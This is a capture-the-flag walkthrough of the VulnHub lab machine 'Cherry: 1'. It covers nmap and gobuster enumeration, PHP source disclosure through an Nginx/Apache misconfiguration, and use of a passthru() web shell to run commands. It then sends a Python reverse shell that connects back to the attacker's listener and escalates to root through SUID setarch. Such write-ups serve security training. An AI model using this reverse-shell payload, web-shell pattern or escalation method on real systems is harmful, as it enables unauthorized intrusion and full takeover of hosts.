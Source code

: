 # VulnHub > Cherry: 1

* Name: Cherry: 1
* Date release: 14 Sep 2020
* Author: SunCSR Team
* Series: Cherry
* Difficulty: Easy
* Tested: VMware Workstation 15.x Pro (This works better with VMware rather than VirtualBox)
* Goal: Get the root shell and then obtain flag under `/root`.

# Services enumeration

There are serveral open ports, including 2 web services, one involving Nginx (port `80`) and the other with Apache (port `7755`)

~~~
PORT   STATE SERVICE VERSION
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
80/tcp    open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Cherry
7755/tcp  open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Cherry
33060/tcp open  mysqlx?
| fingerprint-strings: 
|   DNSStatusRequestTCP, LDAPSearchReq, NotesRPC, SSLSessionReq, TLSSessionReq, X11Probe, afp: 
|     Invalid message"
|_    HY000
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
~~~

# Web enumeration

## Backup directory

Enumerating the web service (port 80) with gobuster reveals the existence of a hidden `/backup` directory:

~~~
kali@kali:/data/CHERRY_1$ gobuster dir -u http://cherry.box/ -w /usr/share/wordlists/dirb/common.txt 
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://cherry.box/
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirb/common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/09/21 08:32:20 Starting gobuster
===============================================================
/backup (Status: 301)
/index.html (Status: 200)
/info.php (Status: 200)
===============================================================
2020/09/21 08:32:20 Finished
===============================================================
~~~

## Source code disclosure

Accessing the `/backup` directory via the web browser reveals the files contained in it, as directory listing is enabled. Besides, there is a vulnerability due to the double web server Nginx/Apache. Indeed, Nginx has been configured to deliver static content only (e.g. `*.html` files), while Apache delivers dynamic content (e.g. `*.php` files). Hence, accessing a `*.php` file over port 80 will reveal its source content, as shown below:

~~~
kali@kali:/data/CHERRY_1/files/piranha.core-master$ curl http://cherry.box/info.php
<?php
phpinfo(); 
?>
~~~

## command.php

The `/backup` directory contains several useless compressed archives, but an interesting `command.php` file.

~~~
$ curl -s http://cherry.box:7755/backup/ | html2text 
****** Index of /backup ******
[[ICO]]       Name             Last_modified    Size Description
===========================================================================
[[PARENTDIR]] Parent_Directory                    -  
[[   ]]       command.php      2020-09-07 03:30  293  
[[   ]]       latest.tar.gz    2020-09-01 18:54  12M  
[[   ]]       master.zip       2020-09-07 03:33  11M  
[[   ]]       master.zip.bak   2020-09-07 03:34  11M  
===========================================================================
     Apache/2.4.41 (Ubuntu) Server at cherry.box Port 7755
~~~

Browsing curl http://cherry.box/backup/command.php (port 80) will reveal the source code of `command.php`. This page will execute the command passed as argument (`$_GET['backup']`). 

```php
<?php echo passthru($_GET['backup']); ?>
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Backup</title>
</head>
<body>
<!-- </?php echo passthru($_GET['backup']); ?/> -->
</body>
</html>
```

Below is an example of successful command execution:

~~~
$ curl -s http://cherry.box:7755/backup/command.php?backup=id

uid=33(www-data) gid=33(www-data) groups=33(www-data)
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Backup</title>
</head>
<body>
<!-- </?php echo passthru($_GET['backup']); ?/> -->
</body>
</html>
~~~

# Reverse shell

With this initial foothold, we can now prepare a reverse shell. Let's start a listener (`rlwrap nc -nlvp 4444`) and send the following command:

~~~
http://cherry.box:7755/backup/command.php?backup=python3%20-c%20%27import%20socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((%22172.16.222.128%22,4444));os.dup2(s.fileno(),0);%20os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import%20pty;%20pty.spawn(%22/bin/bash%22)%27
~~~

A reverse shell is spawned in our listener window:

~~~
kali@kali:/data/CHERRY_1/files/piranha.core-master$ rlwrap nc -nlvp 4444
listening on [any] 4444 ...
connect to [172.16.222.128] from (UNKNOWN) [172.16.222.133] 49634
www-data@cherry:/var/www/html/backup$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
~~~

# Privesc

Listing the files owned by `root` with the SUID bit set reveals an interesting program:

~~~
www-data@cherry:/tmp$ find / -type f -user root -perm -u=s 2>/dev/null
find / -type f -user root -perm -u=s 2>/dev/null
/usr/bin/fusermount
/usr/bin/umount
/usr/bin/mount
/usr/bin/setarch <------ interesting executable!
[REDACTED]
~~~

Checking on [GTFOBins](https://gtfobins.github.io/gtfobins/setarch/) reveals that we can take advantage of it to elevate our privileges to `root` as the program has the SUID bit set:

~~~
www-data@cherry:/tmp$ /usr/bin/setarch $(arch) /bin/sh -p
/usr/bin/setarch $(arch) /bin/sh -p
# id
id
uid=33(www-data) gid=33(www-data) euid=0(root) egid=0(root) groups=0(root),33(www-data)
~~~

# Root flag

Now elevated to `root`, we can get the root flag:

~~~
# cd /root
cd /root
# ls -la
ls -la
total 44
drwx------  5 root root 4096 Sep  7 04:21 .
drwxr-xr-x 20 root root 4096 Sep  7 02:18 ..
-rw-------  1 root root  164 Sep  7 04:21 .bash_history
-rw-r--r--  1 root root 3106 Dec  5  2019 .bashrc
drwxr-xr-x  3 root root 4096 Sep  7 02:33 .local
-rw-------  1 root root   18 Sep  7 02:37 .mysql_history
-rw-r--r--  1 root root  161 Dec  5  2019 .profile
drwx------  2 root root 4096 Sep  7 02:21 .ssh
-rw-r--r--  1 root root  255 Sep  7 04:13 .wget-hsts
-rw-r--r--  1 root root   46 Sep  7 04:20 proof.txt
drwxr-xr-x  3 root root 4096 Sep  7 02:21 snap
# cat proof.txt
cat proof.txt
Sun_CSR_TEAM.af6d45da1f1181347b9e2139f23c6a5b
~~~
